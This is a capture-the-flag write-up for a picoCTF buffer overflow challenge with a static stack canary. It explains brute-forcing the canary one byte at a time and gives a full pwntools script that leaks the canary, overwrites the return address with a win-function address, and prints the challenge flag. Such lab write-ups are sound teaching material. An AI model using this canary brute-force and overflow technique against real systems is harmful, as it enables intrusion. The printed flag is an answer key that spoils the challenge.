

As always, we have a binary running on a server we need to exploit to get the flag. We still have access to the binary file and to the source code.<br>
As the name of the challenge implies, it's a buffer overflow. But this time, a canary is in place to protect the binary.<br>
The issue resides in the fact that the canary is not random but taken from a file, meaning it'll always be the same.

Knowing this, we can bruteforce it pretty easily. Bruteforcing the entire canary at once would be way too long to be achievable, but as the canary has always the same value, we can bruteforce it byte by byte.

We can put just enough garbage data to fill the stack until the canary, then only overwrite one byte of the canary and see if it crashes.<br>
As long as it does, we know this is not the right byte and we can try the next one.<br>
When the program completes without crashing, we know we have used the right byte to overwrite the canary's first byte. We can then keep it and try the same process against the second byte, and so on, to leak the whole canary.

Here is my exploit script:

```py
from pwn import *

domain = "saturn.picoctf.net"
port = 60618

def get_canary():
    canary_bytes = []

    for i in range(4):
        canary_bytes.append(0)
        for j in range(256):
            canary_bytes[i] = (j + 65) % 256 # +65 is to speed up the process : I guess the canary is composed of letters that has a meaning, and letters begin at value 65 (A)

            p = remote(domain, port)

            p.recv()
            p.send(b"9999\n")
            p.recv()
            p.send(b"A" * 64 + "".join([chr(o) for o in canary_bytes]).encode("utf-8"))
            result = p.recvall().decode("utf-8")
            if "Stack Smashing Detected" not in result:
                context.log_level = "info"
                log.info(f"Found byte {i + 1} of the canary = {canary_bytes[i]}")
                context.log_level = "error"
                break
                
            assert(j < 255) # we should never end up at the end of the loop without having found the right canary byte value we're after

    return "".join([chr(o) for o in canary_bytes]).encode("utf-8")

p = remote(domain, port)
context.log_level = "error"

canary = get_canary()
win = p32(0x8049336)

p.recv().decode("utf-8")
p.send(b"9999\n")
p.recv().decode("utf-8")
p.send(b"A" * 64 + canary + p32(0) * 4 + win)

context.log_level = "info"
log.info(p.recvall().decode("utf-8"))
```

Once we leaked the canary, we successfully exploit the buffer overflow to get the flag.



Flag: `picoCTF{Stat1C_c4n4r13s_4R3_b4D_32625866}`